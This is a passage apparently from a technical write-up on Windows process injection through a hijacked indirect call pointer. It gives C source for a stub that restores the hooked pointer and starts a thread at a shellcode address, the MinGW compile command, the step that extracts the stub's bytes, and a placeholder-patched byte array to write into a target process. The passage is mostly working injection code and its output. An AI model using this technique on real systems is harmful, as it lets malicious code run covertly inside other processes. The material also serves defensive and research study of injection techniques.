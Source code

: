 ```cpp
    FARPROC icall_fptr_orig = (FARPROC)0x4444444444444444;
    DWORD oldprot = 0;

	// restore original pointer value
    VirtualProtect(icall_fptr, sizeof(FARPROC), PAGE_READWRITE, &oldprot);
    *icall_fptr = icall_fptr_orig;
    VirtualProtect(icall_fptr, sizeof(FARPROC), oldprot, &oldprot);

	// create thread starting at shellcode address
    CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)0x5555555555555555, NULL, NULL, NULL);

	// restore register values
    asm(
        "pop rax\n"
        "pop rdi\n"
        "pop rcx\n"
        "pop rdi\n"
        "pop rsi\n"
        "pop r8\n"
        "pop r9\n"
        "pop r10\n"
        "pop r11\n"
        "pop r12\n"
        "pop r13\n"
    );

	// return 0, as that's what the original function did.
    return 0;
}
```

**compilation command line**
```bash
x86_64-w64-mingw32-gcc -fPIC -masm=intel ./stub.c -o stub.exe
```

We can then extract the `stub` function from the executable using a disassembler, for this I used Binary Ninja's `bv.read` api, allowing us to read raw bytes from an address range.

```python
bv.read(0x140001530, 0x1400015e6  - 0x140001530 + 1).hex()

'4154534883ec5850575157564150415141524153415441554c8d4c244cc744244c00000000ba0800000049bc33333333333333334c894c24384c89e141b80400000048bb1111111111111111ffd34c8b4c2438448b44244c4c89e148b84444444444444444ba0800000049890424ffd3c7442420000000004531c931d248c74424280000000031c949b8555555555555555548b82222222222222222ffd0585f595f5e41584159415a415b415c415d4883c4585b415cc3'
```

Now that we have this, we can replace the placeholder values and then write it before the payload in memory of the target process. The payload will be stored at `allocated_address + 0xc0`, as we need a 16-byte alligned base address for our shellcode.

```cpp
BYTE stub[] = {
	0x41,0x54,0x53,0x48,0x83,0xec,0x58,0x50,0x57,0x51,0x57,0x56,0x41,0x50,0x41,0x51,0x41,0x52,0x41,0x53,0x41,0x54,0x41,0x55,0x4c,0x8d,0x4c,0x24,0x4c,0xc7,0x44,0x24,0x4c,0x00,0x00,0x00,0x00,0xba,0x08,0x00,0x00,0x00,
	0x49,0xbc,
	0x33,0x33,0x33,0x33,0x33,0x33,0x33,0x33,
	0x4c,0x89,0x4c,0x24,0x38,0x4c,0x89,0xe1,0x41,0xb8,0x04,0x00,0x00,0x00,0x48,0xbb,0x11,0x11,0x11,0x11,0x11,0x11,0x11,0x11,0xff,0xd3,0x4c,0x8b,0x4c,0x24,0x38,0x44,0x8b,0x44,0x24,0x4c,0x4c,0x89,0xe1,0x48,0xb8,0x44,0x44,0x44,0x44,0x44,0x44,0x44,0x44,0xba,0x08,0x00,0x00,0x00,0x49,0x89,0x04,0x24,0xff,0xd3,0xc7,0x44,0x24,0x20,0x00,0x00,0x00,0x00,0x45,0x31,0xc9,0x31,0xd2,0x48,0xc7,0x44,0x24,0x28,0x00,0x00,0x00,0x00,0x31,0xc9,0x49,0xb8,0x55,0x55,0x55,0x55,0x55,0x55,0x55,0x55,0x48,0xb8,0x22,0x22,0x22,0x22,0x22,0x22,0x22,0x22,0xff,0xd0,0x58,0x5f,0x59,0x5f,0x5e,0x41,0x58,0x41,0x59,0x41,0x5a,0x41,0x5b,0x41,0x5c,0x41,0x5d,0x48,0x83,0xc4,0x58,0x5b,0x41,0x5c,0xc3
```